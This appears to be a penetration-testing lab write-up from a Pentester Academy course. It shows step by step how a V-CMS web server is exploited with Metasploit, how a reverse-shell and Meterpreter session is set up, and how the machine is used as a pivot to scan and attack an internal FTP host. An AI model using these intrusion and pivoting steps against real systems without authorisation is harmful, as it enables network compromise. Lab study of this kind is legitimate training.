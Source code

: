 ```yaml
---
title: Pivoting II
date: 2022-06-06 12:00:00 -500
categories: [Pentesting,Pivoting]
tags: [Pentester Academy,Metasploit]
---
```


# Pivoting II

## Steps taken:
1. Get the banner of the target machine.

```bash
# nmap -sV --script=banner 192.220.27.3
```

![](/assets/img/1557.png)

2. Since I don't know what kind of software is being run on the webpage(since its running nginx), I can assume that its a web page and can use the command **curl** to get a GET request:

```bash
# curl 192.220.27.3:80
```

![](/assets/img/1558.png)

	- Notice that the software's name is V-CMSv1.0. 
	- Now, search for exploits available for this!

2.5) Start the database to be used on Metasploit:

```bash
# service postgresql start
# msfdb init
```

3. Searching exploits for VCMS in Metasploit.
```bash
# msfconsole -q
> db_status
-> To check if metasploit is connected to database BEFORE using.
> search vcms
```

![](/assets/img/1559.png)

4. Use this exploit and try whether this is valid.

![](/assets/img/1560.png)

	- Now, run it!

5. Exploiting the web server:
```bash
		> exploit
```

![](/assets/img/1561.png)

	- Works! Now, you can get the first flag on this compromised machine.

![](/assets/img/1562.png)

6. Now, check what programs are useable in this machine with this Meterpreter!
```bash
meterpreter> ?
		- Note that most times, we want to check the networking commands since we use those on pivoting after all!
```

![](/assets/img/1563.png)

	- So, only 'portfwd' command is available on this machine.

7. As of now, we don't know what is the other network on the machine that is connected to this compromised one. Let's check it by downgrading first the meterpreter shell to a 'cmd' and then use 'ifconfig' since 'ifconfig' is not available in this Meterpreter shell in the first place:
```bash
		meterpreter > ?
		ifconfig
```

![](/assets/img/1564.png)

	- Notice that the other other is: 192.82.254.0/24
	- Now, how can we use this machine as a 'bridge' to get to the hidden machine?
	- Let's try to use 'autoroute' first from metasploit.

8. Using autoroute to create a pivot on the compromised machine.

![](/assets/img/1565.png)

Outcome:

![](/assets/img/1566.png)

	- Notice that the module did not work. I assume we have to use the 'portfwd' networking API from the Meterpreter shell afterall!

9. **CAUTION** : If you compromise a machine with a Meterpreter shell IMMEDIATELY, you won't get good networking API's on your meterpreter. You have to use a generic reverse shell first AND THEN UPGRADE TO METERPRETER!

	- Use:

			meterpreter > set payload generic/shell_reverse_tcp
			- Change the payload since the default one uses Meterpreter!

	- Outcome:

![](/assets/img/1567.png)

		- Notice that when you do a generic shell and upgrade to meterpreter shell, you'll have MORE networking APIs on your Meterpreter!

![](/assets/img/1568.png)

10. Now, since this compromised machine is set as a pivot, check which machine are available on this other separate network. In this case, you can use auxiliary/scanner/portscan/tcp:

![](/assets/img/1569.png)

	- Notice that the other machine that is up on the other network is 192.82.254.3 which as ports open: 21 and 22 which is SSH!

11. First, let's attack the FTP port (port 21) first by figuring out its FTP version.

		msf > use auxiliary/scanner/ftp/ftp_version

- Here's the outcome when trying to probe for the FTP version of the hidden machine:

![](/assets/img/1570.png)

	- For some reason, the operation failed. It says that it was "block in spawn". Does that mean that even before you try to connect to the compromised machine, it got blocked? If so, there is a possiblity that a firewall exists in between this web server and the internal network.

- Checking if the ftp allows anonymous logins:

		msf > use auxiliary/scanner/ftp/anonymous

![](/assets/img/1571.png)

	- I'm getting the same error!

- Checking if ftp_logins are allowed:

		msf > use auxiliary/scanner/ftp/ftp_login
		- It is, but we don't have any information whatsoever about the ftp credentials.

### That's because you're using it on the wrong network and NOT on the internal one!

12. Checking out if a firewall exists in between the compromised machine and internal network.

![](/assets/img/1572.png)

	- The host is definitely up but the scanned ports are being filtered. There's definitely a firewall. How can you bypass it then?
	- The firewall actually exists between the Internet and the web server!

13. In the lab, there's a hint that both the machines are using Linux machines. In this case, we can search exploits on the next machine like:

		msf > search exploit/unix/ftp

![](/assets/img/1573.png)

- Now the challenge is which one to pick in these exploits.
- I guess since there's only three and NMAP doesn't seem to work on the machine with the pivot, we can just brute-force it!
- Note that in real pentest, you should have been able to NMAP the machine from the internal network cause otherwise, you wouldn't know whether it is using VSFTPD in the first place and thus, you wouldn't be able to use any kind of exploit as the attacker!

14. Using the #3 exploit:

![](/assets/img/1574.png)
